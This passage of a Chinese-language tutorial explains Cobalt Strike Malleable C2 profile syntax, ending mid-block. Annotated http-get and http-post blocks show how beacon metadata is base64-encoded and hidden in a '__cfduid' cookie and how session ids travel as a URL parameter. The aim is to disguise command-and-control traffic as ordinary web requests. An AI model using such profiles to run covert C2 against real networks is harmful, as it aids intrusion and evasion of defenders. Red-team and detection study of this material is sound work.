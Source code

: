```apl
            base64url;
            
            # 设置元数据前缀
            prepend "__cfduid=";
            
            # 设置携带元数据的HTTP头字段
            header "Cookie";
        }
    }

    server {

        # 设置服务器回应的HTTP头字段
        header "Content-Type" "application/octet-stream";

        output {
            # 设置服务器回应的数据编码为base64
            base64;
            
            # print指令告诉Cobalt Strike在回应中直接打印数据，不添加任何装饰
            print;
        }
}
```



### http-post

与http-get不同的是，http-post多了个id参数，id部分定义了如何传输session id

session id是CS用来标识不同的beacon实例的唯一标识符。为了与C2服务器进行有效通信，每个Beacon必须在其请求中包含这个标识符，以便C2服务器可以识别和处理每个请求。例如，如果session id是1234，那么Beacon发送的POST请求uri会是`/submit.php?id=1234`。

下述代码定义了Cobalt Strike Beacon与C2服务器之间进行HTTP POST请求通信的规则

```apl
http-post {
    # 设置HTTP POST请求的URI
    set uri "/submit.php";

    client {
        # 设置HTTP请求的Content-Type
        header "Content-Type" "application/octet-stream";

        # 定义session id的传输方式，这里是添加到URL参数中
        id {
            parameter "id";
        }

        # 定义Beacon的数据输出方式，这里是编码为base64然后发送
        output {
			      base64;
            print;
        }
    }

    # 服务器响应部分
    server {
        # 设置HTTP响应的Content-Type
        header "Content-Type" "text/html";

        # 定义响应数据的处理方式，这里是解码（从base64格式）然后使用
        output {
			      base64;
            print;
```